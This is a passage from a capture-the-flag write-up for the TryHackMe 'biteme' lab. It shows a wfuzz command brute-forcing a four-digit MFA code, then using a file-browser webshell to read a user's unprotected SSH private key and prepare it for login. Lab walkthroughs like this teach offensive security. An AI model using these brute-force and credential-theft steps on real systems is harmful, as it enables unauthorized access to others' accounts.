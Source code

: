 
We could use multiple switches for filtering out the incorrect payloads, but let's use "**chars**" for this one. Wrong payloads return a response with `1523` characters, so we just add the `--hh` switch:

```zsh 
┌──(lassi㉿kali)-[~/tryhackme/biteme]
└─$ wfuzz -c -z file,pins.txt -u http://10.10.21.12/console/mfa.php -d "code=FUZZ" -H "Cookie: PHPSESSID=ng75estd5tfgpn0k8je4sqi77m; user=jason_test_account; pwd=BABYFACE" --hh 1523
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.21.12/console/mfa.php
Total requests: 10000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                      
=====================================================================

000002303:   302        0 L      0 W        0 Ch        "2302"    
``` 

"`2302`" is the winner! By inputting that as the MFA, we're directed to the application authenticated as `jason_test_account`.

The application seems to be a basic webshell of sorts: 

"**File browser**" functionality, which lets us list files from the server, and "**File viewer**", which lets us to read them. 

![image](https://user-images.githubusercontent.com/77704710/158025168-0016465a-75e5-45b5-a51d-d5a79f3c3ad2.png)


By using the "**File browser**", we were able to locate `user.txt` in `/home/jason/user.txt`

![image](https://user-images.githubusercontent.com/77704710/158025215-395f47ab-78c9-4864-9ab5-0ff13dd886a0.png)


## root.txt

Alright, now on to get a shell on the box. Since the webshell is a simple list/read, it's probably hard to try any sort of reverse shell here. Luckily, jason has also left their **SSH** private key unprotected in their home directory `/home/jason/.ssh/id_rsa`.

We can read it and save it to our attacking machine. A good tip to remember when saving any sort of detailed information from a webpage is to "**View source**" and save the text from there - otherwise the formatting can go wrong.

![image](https://user-images.githubusercontent.com/77704710/158025234-bb0f216d-cee5-407a-bbc8-ae83ebd5eae4.png)

Save the key and give it the correct permissions so that SSH can use it:

```zsh 
┌──(lassi㉿kali)-[~/tryhackme/biteme]
└─$ nano id_rsa
                                                                                                                                                              
┌──(lassi㉿kali)-[~/tryhackme/biteme]
└─$ chmod 0600 id_rsa
``` 

